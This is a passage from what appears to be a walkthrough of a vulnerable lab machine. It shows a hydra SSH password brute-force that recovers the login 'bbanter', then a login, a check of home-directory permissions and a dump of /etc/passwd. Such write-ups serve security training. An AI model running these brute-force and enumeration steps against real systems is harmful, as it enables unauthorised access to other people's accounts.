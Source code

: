 And with that, let's re-run `hydra`:

```
root@kali:~# hydra -L wordlist.dic -P wordlist.dic ssh://192.168.1.100
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at xxxx-xx-xx xx:xx:xx
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 64 tasks, 36 login tries (l:6/p:6), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.1.100   login: bbanter   password: bbanter
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at xxxx-xx-xx xx:xx:xx
```

Success! Now we shall log in! Noticing that we're in `/home/bbanter`, let us first take a look at the permissions in `/home`:

```
bbanter@slax:~$ ls /home -l
total 0
drwxr-x--- 2 aadams  users 80 Jun 29  2007 aadams/
drwxr-x--- 2 bbanter users 80 Jun 29  2007 bbanter/
drwxr-x--- 2 ccoffee users 80 Jun 29  2007 ccoffee/
drwx------ 3 root    root  60 Jun 29  2007 ftp/
```

The ftp user's home directory is root-accessible only? I smell a fish.

```
bbanter@slax:~$ cat /etc/passwd 
root:x:0:0:DO NOT CHANGE PASSWORD - WILL BREAK FTP ENCRYPTION:/root:/bin/bash
bin:x:1:1:bin:/bin:
daemon:x:2:2:daemon:/sbin:
adm:x:3:4:adm:/var/log:
lp:x:4:7:lp:/var/spool/lpd:
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/:
news:x:9:13:news:/usr/lib/news:
uucp:x:10:14:uucp:/var/spool/uucppublic:
operator:x:11:0:operator:/root:/bin/bash
games:x:12:100:games:/usr/games:
ftp:x:14:50::/home/ftp:
smmsp:x:25:25:smmsp:/var/spool/clientmqueue:
mysql:x:27:27:MySQL:/var/lib/mysql:/bin/bash
rpc:x:32:32:RPC portmap user:/:/bin/false
sshd:x:33:33:sshd:/:
gdm:x:42:42:GDM:/var/state/gdm:/bin/bash
pop:x:90:90:POP:/:
nobody:x:99:99:nobody:/:
aadams:x:1000:10:,,,:/home/aadams:/bin/bash
bbanter:x:1001:100:,,,:/home/bbanter:/bin/bash
ccoffee:x:1002:100:,,,:/home/ccoffee:/bin/bash
```
